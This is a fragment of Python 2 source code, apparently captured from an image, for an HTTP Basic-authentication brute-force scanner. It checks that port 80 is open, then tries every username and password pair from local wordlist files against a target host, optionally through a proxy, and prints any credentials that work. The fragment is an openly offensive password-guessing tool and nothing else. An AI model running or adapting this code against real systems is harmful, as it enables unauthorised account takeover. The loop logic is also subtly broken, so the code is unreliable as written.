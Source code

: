 ```python
                result = urllib2.urlopen(request)
                if result is not None:
                    print 'Found %s:%s\n' %(username, passwd)
            except (urllib2.HTTPError,socket.gaierror, socket.error, IOError) as e:
                print e
                code = 2
            return code    
        
    def startHTTPScanBruteForce(self,host,ip,proxy):
        try:
            
            #check port 80 is open
            sock= socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            sock.settimeout(5)
            result = sock.connect_ex((ip,80))
            
            if host.startswith("http") == False:
                            host = "http://"+host            

            if result == 0:
                
                    print "Port 80 open"            

                    print '\n[*] Started scanning \'%s\' \n' % (host)
            
                    #open files dictionary
                    users_file = open("users.txt")
                    passwords_file = open("passwords.txt")
                    for user in users_file.readlines():
                        for password in passwords_file.readlines():
                
                            user_text = user.strip("\n")
                            password_text = password.strip("\n")
                            try:
                                    #check connection with user and password
           
                                    if proxy is not None:
                                        response = self.basic_auth_proxy(host,user_text,password_text,proxy)
                                    else:
                                        response = self.basic_auth(host,user_text,password_text)
                                    if response == 0:
                                            print("[*] User: %s [*] Pass Found:%s" %(user_text,password_text))
                                    elif response == 1:
                                        print("[*] User: %s [*] Pass %s => Login incorrect !!!" %(user,password))
                                    elif response == 2:
                                        print("[*] Connection could not be established to %s" %(host))
                                        return 2
                            except Exception,e:
                                print e
                                print "Error http scan"
                                pass
                            
                    #close files
                    users_file.close()
                    passwords_file.close()
            
            else:
                print "Port HTTP 80 closed"        

```